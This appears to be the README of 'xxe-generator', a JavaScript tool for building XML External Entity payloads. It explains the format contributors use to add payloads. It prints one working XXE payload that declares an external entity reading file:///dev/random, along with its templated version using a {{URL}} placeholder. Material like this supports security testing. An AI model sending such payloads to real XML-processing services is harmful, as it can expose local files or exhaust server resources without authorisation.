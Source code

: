 # xxe-generator

The source code is uncomplicated JavaScript, HTML and CSS code. Usage of massive front-end frameworks would be a waste of resources here (IMO). 

## Contribute Payloads

The payload is an array of strings, each of which is a substring of the payload formed by splitting it on boundaries formed by the new line character.

An example:
```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM  "file:///dev/random" >]>
<foo>&xxe;</foo>
```

would be transformed to

```javascript
['<?xml version="1.0" encoding="ISO-8859-1"?>','<!DOCTYPE foo [','  <!ELEMENT foo ANY >','  <!ENTITY xxe SYSTEM "{{URL}}" >]>','<foo>&xxe;</foo>'],
```

Note that the URI `file:///dev/random` is replaced with the placeholder `{{URL}}`.
